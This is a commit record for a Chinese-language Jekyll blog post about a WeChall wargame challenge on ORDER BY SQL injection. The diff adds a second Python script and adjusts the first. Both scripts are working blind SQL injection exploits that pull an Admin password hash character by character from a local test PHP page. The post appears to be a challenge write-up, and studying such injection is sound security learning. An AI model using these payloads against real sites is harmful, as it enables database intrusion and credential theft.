

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-25-wechall-order-by.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2015-04-25-wechall-order-by.md

```diff
--- a/_posts/2015-04-25-wechall-order-by.md
+++ b/_posts/2015-04-25-wechall-order-by.md
@@ -23,11 +23,12 @@ ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1)
 
 python爆破脚本，用到了requests模块，必须在linux下运行。
 {% highlight python %}
+#版本1
 import requests,string
 charset = 'abcdef'+string.digits
 AdminHash=''
 url = 'http://192.168.1.101/DebugPHP/3.php'
-for i in range(33):
+for i in range(1,33):
     for c in  charset:
         payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                  THEN username ELSE password END) --" %(i, c)
@@ -36,6 +37,21 @@ for i in range(33):
             AdminHash+=c
             break
 print AdminHash  #e10adc3949ba59abbe56e057f20f894e
+
+#版本2
+import requests,string
+charset = 'abcdef'+string.digits
+AdminHash=''
+url = 'http://192.168.1.101/DebugPHP/3.php'
+for i in range(1,33):
+    for c in  charset:
+        payload="?by=IF(SUBSTR((SELECT password from fruits WHERE username  +\
+                =CHAR(65,100,109,105,110)),%d,1)=char(%d),username,password) LIMIT 2--" %(i,ord(c))
+        res = requests.get(url+payload)
+        if "2</td><td>Admin" in res.text:
+            AdminHash+=c
+            break
+print AdminHash
 {% endhighlight %}
 
 php本地注入测试脚本
```
